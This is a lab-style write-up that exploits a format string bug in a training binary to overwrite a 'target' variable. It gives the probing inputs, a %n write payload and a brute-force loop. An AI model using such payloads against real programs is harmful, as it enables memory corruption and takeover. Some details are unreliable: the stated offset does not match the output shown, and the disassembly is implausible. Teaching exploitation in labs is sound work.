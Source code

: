 # ex08 README

## Objective

The goal of this exercise is to exploit a format string vulnerability to modify the `target` variable and see the message "you have modified the target :)".

## Steps

### 1. Identify the `target` Variable Address

We start by finding the address of the `target` variable using the `objdump` tool:

```sh

objdump -t bin | grep target
```

This command provides the address of the `target` variable:

```plaintext

080496f4 g     O .bss   00000004              target
```

The address of the `target` variable is `0x080496f4`.

### 2. Analyze the Binary with GDB

We then use GDB to analyze the binary and understand the structure of the `vuln` function:

```sh

gdb -q ./bin
```

Inside GDB, we set a breakpoint at the `vuln` function:

```sh
`break vuln
run
```

Disassemble the `vuln` function to understand its structure:

```sh

disassemble vuln
```

Output:

```plaintext

Dump of assembler code for function vuln:
   0x08048470 <+0>:     push   %ebp
   0x08048471 <+1>:     mov    %esp,%ebp
   0x08048473 <+3>:     and    $0xfffffff0,%esp
   0x08048476 <+6>:     sub    $0x10,%esp
   0x08048479 <+9>:     call   0x804847d <vuln+13>
   0x0804847e <+14>:    leave
   0x0804847f <+15>:    ret
End of assembler dump.
```

### 3. Finding the Correct Offset

To find the correct offset for the format string vulnerability, we tested the binary with different format string inputs:

```sh

python -c "print('AAAA ' + ' %08x' * 20)" | ./bin
```

Output:

```plaintext

AAAA  b7765500 bfa05354 b7745000 00000000 00000000 bfa05318 0804849d bfa05110 00000200 b7745c20 b7761328 41414141 30252020 25207838 20783830 78383025 38302520 30252078 25207838 20783830
target is 00000000 :(
```

From the output, we observed `41414141` at the 11th position, indicating our offset is 11.

### 4. Crafting the Payload

Based on the identified offset, we needed to craft a payload to overwrite the `target` variable. Through a process of trial and error, we tried various payloads to find the correct value to write to the `target` variable. Initially, we tried smaller values and gradually increased them. This systematic approach helped us to avoid overflows and segmentation faults.

Here is the final payload that successfully modified the `target` variable:

```sh

python -c "print '\xf4\x96\x04\x08' + '%x'*10 + '%16930052x' + '%n'" | ./bin
```

Output:

```plaintext

b7772328
you have modified the target :)
```

### Trial and Error Process

1. **Initial Attempts**: We started with small values for the padding, such as:

```sh
    python -c "print '\xf4\x96\x04\x08' + '%x'*10 + '%100x' + '%n'" | ./bin
```

2. **Incremental Increases**: Gradually increased the padding value to see how it affected the `target` variable. We used a loop to automate this process:

```sh

    for i in $(seq 100000 100000 20000000); do
      payload=$(python3 -c "print('\xf4\x96\x04\x08' + '%x'*10 + '%${i}x' + '%11\$n')");
      output=$(echo -e "$payload" | ./bin);
      echo "Trying $i";
      if echo "$output" | grep -q "you have modified the target"; then
        echo "Success! Payload: $payload";
        break;
      fi
    done
```

3. **Final Value**: After several iterations, we found that the correct value to print `16930052` characters was effective in modifying the `target` variable.

### Conclusion

By carefully analyzing the binary and using a systematic trial and error approach, we were able to exploit the format string vulnerability and modify the `target` variable. This exercise demonstrated the power and risk of format string vulnerabilities in C programs.

### Challenges and Learnings

- **Challenge**: Identifying the correct offset for the format string.
- **Solution**: Systematically testing different offsets and payloads.
- **Learning**: The importance of understanding format string vulnerabilities and how they can be exploited to modify memory.

By following these steps and understanding the exploitation process, we successfully completed the level.
